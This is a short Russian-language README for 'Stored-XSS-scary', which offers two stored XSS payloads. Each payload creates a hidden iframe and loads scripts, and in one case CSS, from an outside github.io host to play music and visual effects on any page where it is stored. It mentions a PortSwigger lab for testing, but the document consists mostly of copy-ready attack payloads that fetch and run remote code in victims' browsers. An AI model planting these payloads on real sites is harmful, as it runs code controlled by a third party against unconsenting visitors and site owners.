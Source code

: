 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

------------------------------------------

Обрезанная версия (только запуск музыки):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script)}</script>

Полная версия (музыка + CSS):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script); var cssLink = document.createElement('link'); cssLink.rel = 'stylesheet'; cssLink.href = 'https://0-dayff13r.github.io/Stored-XSS-scary/styles.css'; document.head.appendChild(cssLink); var script2 = document.createElement('script'); script2.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/script.js'; document.body.appendChild(script2);}</script>
